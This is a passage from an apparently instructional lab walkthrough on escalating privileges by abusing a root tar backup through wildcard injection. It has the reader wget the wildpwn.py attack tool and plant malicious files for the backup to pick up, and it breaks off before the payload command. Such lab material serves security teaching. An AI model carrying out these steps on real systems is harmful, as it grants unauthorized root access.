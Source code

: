    Next, we'll look for automated `tar` backup files that can be exploited. 

  - As `jane`, run `cd ~/Documents`

  - Run `ls -l` to see the archive file, `jane_docs_backup.tar`.

      ```
      -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
      ```

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory. Do this from the command line, not the browser.

     - **Hint**: Use `wget` or `curl`.

    - Navigate to and check the contents of this directory before we execute the python script.

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

   - Check the contents of the directory before running the script with `ls -lat`:

     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```


4. Use `wildpwn.py` to generate the malicious `tar` payload files within the `/home/jane/Documents/ExploitTar` directory, which is expected to be frequently backed up.

   - Remember: the exploit becomes staged when the system's automated backup task archives Jane's documents into the `tar` file that we found earlier.

   - If you are unsure how to use this file: after downloading the script, run `python wildpwn.py -h` to look up usage. If you are stuck, ask your instructor or TA for the proper command.

   - Run `ls` to check the directory for our newly created files. 

   - As the regular user `jane`, you just planted malicious files that will create the exploit file when they are automatically backed up by the system.

   Use `wildpwn.py` to generate the malicious files by running:
